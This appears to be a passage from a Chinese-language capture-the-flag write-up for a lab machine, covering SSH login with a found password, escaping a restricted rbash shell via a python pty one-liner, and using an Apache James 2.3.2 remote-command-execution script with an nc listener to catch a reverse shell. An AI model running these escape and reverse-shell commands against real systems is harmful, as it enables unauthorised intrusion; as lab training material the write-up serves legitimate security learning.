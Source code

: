 ```
mindy:P@55W0rd1!2@
```

## SSH登录

发现登录后 shell 是 rbash，是受限制的shell

```bash
─# ssh mindy@192.168.0.104

Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ id
-rbash: id: command not found
```

## 逃逸受限制shell

### 方法一

```bash
ssh mindy@192.168.101.42 "export TERM=xterm; python -c 'import pty; pty.spawn(\"/bin/sh\")'"
```

### 方法二

利用之前得到的 `Apache James Server 2.3.2 - Remote Command Execution` 漏洞尝试

```bash
└─# nc -lvvp 443
```

```bash
└─# python 50347.py 192.168.0.104 192.168.0.103 443
```

当用户 `mindy` ssh登录时，即可得到反弹 shell

```bash
└─# nc -lvvp 443
listening on [any] 443 ...
connect to [192.168.0.103] from 192.168.0.104 [192.168.0.104] 38302

${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

# 提权

交互 shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

